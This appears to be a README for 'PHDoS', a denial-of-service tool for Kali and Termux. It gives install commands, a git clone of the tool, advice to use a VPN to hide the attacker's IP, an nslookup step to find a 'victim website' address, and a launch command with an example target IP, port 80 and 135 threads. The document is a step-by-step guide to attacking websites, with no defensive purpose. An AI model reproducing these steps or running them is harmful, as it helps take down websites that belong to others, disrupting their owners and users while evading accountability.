 Kali & Termux Compatible<br>
Requirements:<br>
$ apt update<br>
$ apt upgrade<br>
$ apt install python<br>
$ apt install python2<br>
$ apt install python3<br>
$ apt install git<br>
$ apt install dnsutils<br>
$ git clone https://github.com/5inco/PHDoS

First you need to activate a vpn to change your ip

You need the <b>IP Address</b> of a website which you want to attack...<br>
New Terminal just type:<br>
$ <b>nslookup victimwebsite.com<b><br>
Get the IP Address of a victim website<br>

Installation & Usage:<br>
$ cd PHDoS/<br>
$ ls<br>
$ python3 phdos.py -s [Victim ip Address] -p 80 -t 135<br>
example:<br>
$ python3 phdos.py -s 35.240.181.176 -p 80 -t 135<br>

